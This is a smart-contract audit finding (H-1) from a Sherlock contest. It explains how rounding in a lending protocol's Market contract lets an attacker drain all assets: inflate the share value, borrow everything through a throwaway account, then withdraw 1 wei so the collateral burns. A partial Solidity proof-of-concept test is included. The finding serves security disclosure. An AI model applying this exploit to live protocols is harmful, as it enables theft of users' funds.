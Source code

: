 # Issue H-1: The Rounding Done in Protocol's Favor Can Be Weaponized to Drain the Protocol 

Source: https://github.com/sherlock-audit/2024-04-interest-rate-model-judging/issues/41 

The protocol has acknowledged this issue.

## Found by 
0x73696d616f, kankodu, santipu\_
## Summary
- When the totalSupply of a market is 0, an attacker can take advantage of #1 and #2 to drain the entire protocol.

## Vulnerability Detail
- The attacker inflates the value of 1 share to a large value, making it sufficient to borrow all the borrowable assets using stealth donation as described in #1 using the original account.
- They create a throwAway account and mint 1 wei of share to that account as well.
  - They put up this 1 wei of share as collateral, borrow all the available assets, and transfer them to the original account.
  - Abandon the market by withdrawing only 1 wei of asset which is allowed, because 1 wei of asset won't be enough to make the position unhealthy (checked using `auditor.shortfall` at the start of the withdrawal). However, this results in 1 whole wei of share (worth a large value) being burnt due to rounding up. See #2.
  - As a result, the throwaway account will now have 0 collateral and a lot of debt.
- The original account now has the claim to all the assets as they are the only holder of shares. Since the original account never borrowed, they are able to withdraw all the assets. Additionally, they receive all the borrowed assets that the throwaway account sent to it.

## Impact
- If the totalSupply of a market is 0, the whole protocol can be drained.

## Code Snippet
- https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L726

##POC
- Add below testcase in `test/Market.t.sol`
```solidity

contract ThrowAwayAccount {
  function enterMarketAndBorrow(Market exactlyMarketToEnter, Market exactlyMarketToBorrowFrom) public {
    exactlyMarketToEnter.auditor().enterMarket(exactlyMarketToEnter);

    //borrow all the available assets
    exactlyMarketToBorrowFrom.borrow(3000 ether, msg.sender, address(this));

    //abandon the market by withdrawing only 1 wei of asset
    //this is allowed because 1 wei of asset won't be enough to make postion unhealthy (checked using auditor.shortfall at the start in withdraw)
    //but results in 1 whole wei of share (worth 8000 ether) being burnt due to rounding up
    exactlyMarketToEnter.withdraw(1, address(this), address(this));

    //This market will be underwater after that since the 1 wei they deposited as collateral has now been burnt
  }
}

 function testDrainProtocol() external {
    marketWETH.asset().transfer(BOB, 3000 ether);
```